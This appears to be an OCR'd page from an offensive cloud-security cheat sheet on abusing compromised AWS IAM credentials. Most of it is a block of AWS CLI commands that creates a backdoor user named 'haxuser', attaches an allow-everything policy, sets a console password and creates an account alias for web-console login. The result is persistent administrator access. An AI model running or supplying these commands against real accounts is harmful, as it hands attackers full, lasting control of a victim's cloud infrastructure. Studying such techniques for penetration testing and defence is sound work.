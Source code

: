 # Identity and Access Management

IAM credential It can be used to access other cloud services such as the S3 bucket or container registry. 
If an admin identity is attached to the instance or the identity is provisioned with excessive privileges, attackers can compromise the entire cloud infrastructure.


```
aws iam create-user --user-name haxuser
aws iam create-access-key --user-name haxuser
aws iam create-group --group-name haxuser
#Assign group policy for temp group granting all access
aws iam put-group-policy --group-name haxuser --policy-name haxuser --policy-document '{"Version":"2012-10-17", "Statement": [{"Sid": "Stmt1437414476731", "Action": "*", "Effect": "Allow", "Resource": "*" }]}'
# Add temp user to temp group
aws iam add-user-to-group --group-name haxuser --user-name haxuser

#Create a login profile for temp user with a SUPER COOL password
aws iam create-login-profile --user-name haxuser --password 'SuperDuperCoolPassword'

#Create an account alias so you can access the account web console
aws iam create-account-alias --account-alias haxuseralias
hxxps://haxuseralias.signin.aws.amazon.com/console/
```

* ref https://d47zm3.me/resources/infosec/cloud-security/
* ref https://unit42.paloaltonetworks.com/server-side-request-forgery-exposes-data-of-technology-industrial-and-media-organizations/

